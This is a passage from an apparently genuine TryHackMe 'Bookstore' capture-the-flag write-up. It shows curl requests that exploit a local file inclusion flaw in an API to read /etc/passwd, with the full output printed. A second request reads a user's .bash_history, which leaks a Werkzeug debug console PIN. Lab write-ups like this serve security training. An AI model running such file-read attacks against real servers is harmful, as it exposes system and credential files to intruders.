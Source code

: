 ```bash
┌──(all3n㉿kali)-[~/thm/bookstore]
└─$ curl http://10.10.87.239:5000/api/v1/resources/books?<redacted>=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sid:x:1000:1000:Sid,,,:/home/sid:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

Now we confirmed that we have an LFI vulnerability. Earlier there is a console that needs a PIN, we can now try including sid's **_.bash_history_** to checked if the PIN is in there.

```bash
┌──(all3n㉿kali)-[~/thm/bookstore]
└─$ curl http://10.10.87.239:5000/api/v1/resources/books?show=../../../../home/sid/.bash_history
cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=<redacted>
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
```

And there is the PIN. Now let's try to use it in **_/console_**.

![Port5000-APIinConsole](https://raw.githubusercontent.com/allenjedb/HaxNotes/main/writeups/THM/Bookstore/img/4.png "API in-Console")
